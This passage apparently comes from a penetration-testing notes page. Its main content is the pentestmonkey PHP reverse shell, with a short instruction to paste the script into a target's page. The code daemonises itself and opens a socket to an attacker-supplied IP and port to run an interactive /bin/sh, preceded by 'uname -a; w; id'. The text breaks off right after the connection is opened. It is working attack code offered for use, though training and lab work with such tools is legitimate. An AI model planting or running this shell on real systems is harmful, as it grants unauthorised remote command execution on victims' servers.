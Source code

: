 ***

* Put the content of this script in the space shown above

{% code title="phpRevShell.php" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '';  // Put your IP between the quotes
  $port = ;  // Put your port here
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
```